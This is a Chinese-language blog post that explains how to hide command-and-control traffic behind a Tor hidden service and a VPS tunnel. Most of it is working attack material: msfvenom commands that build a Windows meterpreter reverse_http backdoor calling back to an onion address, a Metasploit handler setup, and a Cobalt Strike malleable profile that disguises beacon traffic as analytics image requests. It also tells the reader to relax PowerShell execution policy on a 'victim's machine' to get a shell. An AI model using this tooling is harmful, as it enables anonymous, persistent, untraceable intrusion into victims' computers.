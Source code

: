 ```yaml
---
layout:         post
title:          Tor Hidden Service & 匿名攻击
author:         wooy0ung
tags:           msf
category:  		exploit
---
```



>利用 VPS 作为跳板强化可持续控制, 但还是会泄漏一部分个人信息。  
>Tor Hidden Services 提供了隐藏自身网络的服务, 它提供了一个唯一并且匿名的 hostname, 配合 VPS 进行流量转发, 最终实现匿名持续控制。  
![](/assets/img/exploit/2017-09-03-tor-fronting/0x00.png)
<!-- more -->


### 0x00 config Tor Hidden Services

查看系统版本

```
$ lsb_release -a
```

![](/assets/img/exploit/2017-09-03-tor-fronting/0x01.png)

选择对应的版本, [传送门](https://www.torproject.org/docs/debian.html.en#ubuntu)

![](/assets/img/exploit/2017-09-03-tor-fronting/0x02.png)

按提示要求安装, 然后编辑 /etc/tor/torrc 文件(取消注释)

```
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:8080
```

重启 Tor 服务

```
$ sudo service tor restart
```


### 0x01 开启 http 服务

查看 hostname

```
$ sudo cat /var/lib/tor/hidden_service/hostname
```

打开 http 服务

```
$ cd /tmp
$ python -m SimpleHTTPServer 8080
```

浏览器访问 xxx.onion.link, 确认页面能正常打开再关闭服务


### 0x02 payload & exploit

端口转发

```
$ ssh -N -R 8080:192.168.1.104:8080 root@VPS_IP
```

生成 http 反弹后门

```
$ msfvenom -p windows/meterpreter/reverse_http lhost=xxx.onion.link lport=80 -f exe > shell.exe
```

设置好 msf

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_http
msf exploit(handler) > set lhost 0.0.0.0
msf exploit(handler) > set lport 8080
msf exploit(handler) > set exitonsession false
msf exploit(handler) > exploit -j
```

在 Victim's machine 执行 payload, getshell~

![](/assets/img/exploit/2017-09-03-tor-fronting/0x03.png)


### 0x03 cobaltstrike

将 teamserver、cobaltstrike.jar上传到 vps, 在 vps nano tor-fronting.profile 文件, 添加以下内容

```
set sleeptime "5000";
http-get {
        set uri "/___utm";
        client {
                header "Host" "xxx.onion.link";
                header "Cookie" "onion_cab_iKnowShit=xxx";
                metadata {
                        base64url;
                        prepend "__utma";
                        parameter "utmcc";
                }
        }
        server {
                header "Content-Type" "plain/text";
                output {
                        # hexdump pixel.gif
                        # 0000000 47 49 46 38 39 61 01 00 01 00 80 00 00 00 00 00
                        # 0000010 ff ff ff 21 f9 04 01 00 00 00 00 2c 00 00 00 00
                        # 0000020 01 00 01 00 00 02 01 44 00 3b
                        prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
                        prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
                        prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
                        print;
                }
        }
}
http-post {
        set uri "/__utm";
        set verb "GET";
        client {
                header "Host" "xxx.onion.link";
                header "Cookie" "onion_cab_iKnowShit=xxx";
                id {
                        prepend "UA-220";
                        append "-2";
                        parameter "utmac";
                }
                output {
                        base64url;
                        prepend "__utma";
                        parameter "utmcc";
                }
        }
        server {
                header "Content-Type" "plain/text";
                output {
                        prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
                        prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
                        prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
                        print;
                }
        }
}
# dress up the staging process too
http-stager {
        server {
                header "Content-Type" "plain/text";
        }
}
```

打开 teamserver

```
$ ./teamserver VPS_IP msf tor-fronting.profile
```

连接 teamserver

```
$ ./cobaltstrike
```

![](/assets/img/exploit/2017-09-03-tor-fronting/0x04.png)

新建 listener

![](/assets/img/exploit/2017-09-03-tor-fronting/0x05.png)
![](/assets/img/exploit/2017-09-03-tor-fronting/0x06.png)

生成 payload

![](/assets/img/exploit/2017-09-03-tor-fronting/0x07.png)

在 Victim's machine 的 powreshell 下执行以下命令, 允许执行不信任脚本

```
> set-ExecutionPolicy RemoteSigned
```

再执行 payload, getshell~

![](/assets/img/exploit/2017-09-03-tor-fronting/0x08.png)